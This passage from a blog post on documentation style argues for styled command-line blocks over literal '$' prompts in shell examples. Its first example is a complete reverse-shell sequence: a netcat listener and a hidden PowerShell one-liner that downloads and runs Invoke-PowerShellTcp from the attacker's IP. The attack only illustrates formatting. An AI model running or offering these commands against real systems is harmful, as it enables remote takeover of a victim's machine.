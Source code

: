 1. *Get our IP.*

    ```shell {data-label=Attacker .command-line data-prompt="kali@kali $" data-output=2-10}
    ifconfig
    eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.100  netmask 255.255.255.0  broadcast 192.168.100.255
        ...
    ```

2. *Listen for incoming connections on port 4444.*

    ```shell {data-label=Attacker .command-line data-prompt="kali@kali $"}
    nc -nlvp 4444
    ```

3. *Download and execute `Invoke-PowerShellTcp` on the victim.*
    
    ```powershell {data-label=Victim .command-line data-prompt="PS C:\>"}
    powershell -nop -w hidden -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.100.100/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.100.100 -Port 4444" 
    ```

It's clear that our character shifts from Scene 1 to Scene 2, with less sentence clutter.
{% enddetails %}

Another problem I notice on many documentation pages is the use of `$`, denoting the start of a new command on a shell. These are poor for a couple reasons: it doesn't accurately present the actual code (from both the writer's and readers' PoV) and may disrupt syntax highlighters.

{% details "Example: The Obstructive $ (Command-Line)" %}

These are commonly seen in installation scripts or guides. Here's an example installing a Makefile-based project:

```sh
$ tar -xvzf who_doesnt_like_to_copy_lines_of_code_one_by_one.tar.gz
$ cd who_doesnt_like_to_copy_lines_of_code_one_by_one
$ ./configure
$ make -j4
$ make install
```

Atrocious! You can't copy multiple lines without the nasty $ getting in the way! What terrible UX. It's like when your parent or sibling stands in front of the television!^[To be fair, there's an argument to be made for "not running these commands all at once". Failure isn't handled. But this largely exists in relatively low-level build commands for C/C++, which are renowned for their many toolchains (read: potential build errors).]

Compare it to this:

```sh {.command-line data-prompt="$"}
tar -xvzf who_doesnt_like_to_copy_lines_of_code_one_by_one.tar.gz
cd who_doesnt_like_to_copy_lines_of_code_one_by_one
./configure
make -j4
make install
```
